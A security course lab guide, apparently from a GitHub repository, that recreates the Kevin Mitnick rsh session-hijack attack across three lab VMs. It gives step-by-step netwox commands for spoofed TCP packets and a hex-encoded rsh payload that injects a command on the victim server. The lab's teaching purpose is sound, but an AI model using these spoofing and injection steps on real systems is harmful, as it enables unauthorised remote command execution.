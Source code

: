 ## The Kevin Mitnick Attack 

### Requirements

In this lab, we will demonstrate the Kevin Mitnick attack - a special case of the TCP session hijack attack. Instead of hijacking an existing TCP connection between victims A and B, the Mitnick attack creates a TCP connection between A and B first on their behalf, and then naturally hijacks the connection. Specifically, Kevin Mitnick created and hijacked rsh connections. In this lab, the attacker's goal is to create a file /tmp/xyz on the victim server machine.

### Setup

3 Linux VMs. VM1 as the victim client; VM2 as the victim server; VM3 as the attacker. The 3 VMs reside in the same network - in the original Kevin Mitnick attack, the attacker's machine was not in the same network. Back then TCP sequence numbers were easily predictable, today it is not. To simulate the attack and simplify our task, we assume we still know the sequence numbers - we will, in the lab, obtain the sequence numbers from wireshark. We will then use "netwox 40" to perform packet spoofing. In the following document, we assume the victim client's IP is 10.0.2.15, and the victim server's IP is 10.0.2.10.

Background knowledge: In rsh, two TCP connections are needed. One for normal communication, the other for sending error messages. In the first connection, client port must be 1023, server port must be 514. In the second connection, server port must be 1023, client port can be anything - in this lab, we will choose 9090.

### Preparation steps: 

step 1. installing rsh on client, server, and the attacker's machine. Run the following two commands on all 3 VMs:

```console
# sudo apt-get install rsh-redone-client
# sudo apt-get install rsh-redone-server
```

step 2. configure rsh on the victim server machine.

```console
$ touch .rhosts
$ echo [victim client’s IP address] > .rhosts (replace "victim client's IP address" with the actual IP address)
$ chmod 644 .rhosts
```

These commands look like this:
![alt text](lab-mitnick-rsh-config.png "rsh works")

If the above configuration is correct, you should be able to run the follow command on the victim client machine, and it will show you current date information.

```console
# rsh [victim server’s IP] date
```

Like this:

![alt text](lab-mitnick-rsh-good.png "rsh works")

As a comparison, if you run the same command from the attacker's machine, you will get an error like this:

![alt text](lab-mitnick-rsh-bad.png "rsh doesn't work")

step 3. simulating the syn flooding attack.

3.1: on the victim server, run:

```console
# sudo arp -s [victim client’s IP] [victim client’s MAC]
```

This step is needed so that the server remembers the MAC address of the client, which is needed for the server to send packets to the client.

3.2: shutdown the victim client VM - we do so to simulate the situation when the client is under serious syn flooding attack and can't respond. **Explanation**: why do we want the server to remember the MAC address of the client? Because computers in the same network use MAC addresses, instead of IP addresses, to communicate. And once we shutdown the victim client, if the server doesn't know the victim client's MAC address, the server simply won't send any packet to the client; but our attack won't be successful if the server doesn't send any packet to the client.

step 4. in the attacking steps (next section), right after step 6.1, we need to run step 6.2 as soon as possible, otherwise the server will RESET the 1st TCP connection; similarly, right after step 6.3, we need to run step 7.1 as soon as possible, otherwise the server will RESET the 2nd TCP connection. Therefore, writing a sniffing-and-spoofing script would be the better way to perform this attack.

Alternatively, we can run these two commands on the server so that it does not RESET that fast.

```console
# sudo sysctl -w net.ipv4.tcp_syn_retries=50
# sudo sysctl -w net.ipv4.tcp_synack_retries=50
```

**Explanation**: these two commands are saying, do not reset the tcp connection, unless one party of the connection has tried syn more than 50 times; do not reset the tcp connection, unless one party of the connection has tried syn-ack more than 50 times.

step 5. turn on wireshark on the attacker's VM and start capturing. also, sanity check - make sure there is no such a file called /tmp/xyz on the server side - as our ultimate goal in this lab is to create such a file.

### Attacking steps:

step 6. create the first TCP connection. 

step 6.1: On the attacker's VM, send a spoofed SYN packet to the victim server.

```console
# sudo netwox 40 --tcp-syn --ip4-src 10.0.2.15 --ip4-dst 10.0.2.10 --tcp-src 1023 --tcp-dst 514
```

step 6.2: right after the above command, netwox would show us the sequence number of this SYN packet, let's say it's x. Then in wireshark, identify the SYN-ACK packet coming from the victim server to the victim client and find out its sequence number, let's say it's y. Now we send the ACK packet to complete the TCP 3-way handshake.

```console
# sudo netwox 40 --tcp-ack --ip4-src 10.0.2.15 --ip4-dst 10.0.2.10 --tcp-src 1023 --tcp-dst 514 --tcp-acknum y+1 --tcp-seqnum x+1
```

step 6.3: send one ACK packet to the server. This packet carries the command we want to run:

```console
# sudo netwox 40 --tcp-ack --ip4-src 10.0.2.15 --ip4-dst 10.0.2.10 --tcp-src 1023 --tcp-dst 514 --tcp-acknum y+1 --tcp-seqnum x+1 --tcp-data "393039300073656564007365656400746f756368202f746d702f78797a00" 
```

note: step 6.2 and step 6.3 are the same command, except that --tcp-data part.

**Explanation**: why the tcp data is "393039300073656564007365656400746f756368202f746d702f78797a00"? Because in netwox 40, --tcp-data specifies the data you want to transfer, and in our case, we want to transfer an rsh command "touch /tmp/xyz". In rsh, its data's structure is:

[port number]\x00[uid_client]\x00[uid_server]\x00[your command]\x00

thus, in order to inject a command "touch /tmp/xyz", the data we should inject is "9090\x00seed\x00seed\x00touch /tmp/xyz\x00", and then we need to convert it into hex numbers:

```console
$ python
>>> "9090\x00seed\x00seed\x00touch /tmp/xyz\x00".encode("hex")
'393039300073656564007365656400746f756368202f746d702f78797a00'
```

step 7. create the second TCP connection. After the above ACK packet, the server would automatically sends a SYN packet to the client so as to establish the 2nd TCP connection. We just need to respond a fake SYN-ACK packet. Let's say the sequence number of this SYN packet is z, then in our SYN-ACK packet, the ack num needs to be z+1, the sequence number can be anything.

step 7.1: 

```console
# sudo netwox 40 --tcp-syn --tcp-ack --ip4-src 10.0.2.15 --ip4-dst 10.0.2.10 --tcp-src 9090 --tcp-dst 1023 --tcp-acknum z+1
```

### Verification steps:

step 8. on the victim's server machine, see if /tmp/xyz is created.

